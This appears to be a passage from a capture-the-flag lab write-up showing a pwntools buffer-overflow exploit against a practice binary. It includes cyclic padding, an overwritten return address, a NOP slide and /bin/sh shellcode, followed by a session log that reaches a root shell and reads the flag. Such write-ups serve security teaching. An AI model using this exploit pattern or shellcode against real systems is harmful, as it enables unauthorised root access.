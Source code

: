 


We can interact with the binary with the python3 interpreter with the process() function. NOTE: using python3 we need to prefix with `b` for bytes cause python3 doesnt allow mixing strings and bytes, python did.

```python

from pwn import *

proc = process('./intro2pwnFinal')

proc.recvline()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffcf50+200)

nop_slide = b"\x90"*1000

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

proc.send(payload)

proc.interactive()

```

## Demoed on remote THM machine, using python 2

```python

      -----snip---------
>>> payload = padding + eip + nop_slide + shellcode
>>> proc = process('./intro2pwnFinal')
[x] Starting local process './intro2pwnFinal'
[+] Starting local process './intro2pwnFinal': pid 2942
>>> proc.recvline()
'Hello There. Do you have an input for me?\n'
>>> proc.send(payload)
>>> proc.interactive()
[*] Switching to interactive mode
whoami
whoami
root
cd /root
ls -la
total 32
drwx------  4 root root 4096 Jun 10  2021 .
drwxr-xr-x 26 root root 4096 Jun  9  2021 ..
-rw-------  1 root root   28 May 19  2021 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jun  9  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 19  2021 .ssh
-rw-rw-r--  1 root buzz   24 Jun 10  2021 flag.txt
cat flag.txt
flag{pwn!ng_!$_fr33d0m}

```
